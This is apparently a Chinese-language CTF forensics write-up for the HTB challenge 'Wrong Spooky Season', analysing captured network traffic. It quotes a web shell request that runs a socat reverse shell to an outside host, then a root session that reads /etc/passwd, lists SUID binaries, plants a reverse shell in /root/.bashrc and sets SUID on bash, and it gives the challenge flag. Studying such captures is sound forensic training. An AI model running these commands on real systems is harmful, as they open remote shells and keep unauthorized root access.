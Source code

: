 # Wrong Spooky Season

:::note CHALLENGE DESCRIPTION

VERY EASY

I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.&quot; Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

:::

题目提供了一个流量包文件

![img](img/image_20240348-194839.png)

在 `TCP Stream 13` 中得到

```plaintext
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

URL Decode得到

```plaintext
socat TCP:192.168.1.180:1337 EXEC:bash
```

看起来就是将bash绑定到了`1337`端口，看下一个会话

```plaintext
id
uid=0(root) gid=0(root) groups=0(root)
groups
root
uname -r
5.18.0-kali7-amd64
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha 
total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```

在其中找到

```plaintext
==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS

Reverse

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

Base64 Decode

HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

```plaintext title="Flag"
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

